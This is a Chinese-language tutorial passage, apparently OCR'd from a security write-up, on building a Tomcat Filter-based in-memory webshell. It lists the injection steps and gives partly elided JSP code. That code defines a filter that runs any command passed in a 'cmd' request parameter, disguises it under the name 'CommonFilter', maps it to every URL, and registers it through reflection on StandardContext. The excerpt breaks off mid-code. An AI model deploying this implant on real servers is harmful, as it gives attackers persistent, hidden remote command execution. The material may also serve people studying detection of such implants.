 ## **Filter类内存马**
动态添加恶意Filter的思路如下



获取StandardContext对象

创建恶意Filter

使用FilterDef对Filter进行封装，并添加必要的属性

创建filterMap类，并将路径和Filtername绑定，然后将其添加到filterMaps中

使用ApplicationFilterConfig封装filterDef，然后将其添加到filterConfigs中

实例：

```java
......            

<%! public class Shell_Filter implements Filter {
        public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                try {
                    Runtime.getRuntime().exec(cmd);
......            


%>

<%
    // 创建一个新的Shell_Filter实例
    Shell_Filter filter = new Shell_Filter();

    // 设置过滤器的名称为"CommonFilter"
    String name = "CommonFilter";

    // 创建一个新的FilterDef实例并设置相关属性
    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName(name);
    filterDef.setFilterClass(filter.getClass().getName());
    // 将过滤器定义添加到standardContext中
    standardContext.addFilterDef(filterDef);


    // 创建一个新的FilterMap实例并设置相关属性
    FilterMap filterMap = new FilterMap();
    filterMap.addURLPattern("/*");
    filterMap.setFilterName(name);
    filterMap.setDispatcher(DispatcherType.REQUEST.name());

    // 将过滤器映射添加到standardContext中
    standardContext.addFilterMapBefore(filterMap);


    // 获取standardContext类中的filterConfigs属性
    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    // 创建一个新的ApplicationFilterConfig实例并添加到filterConfigs中
    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
    constructor.setAccessible(true);
```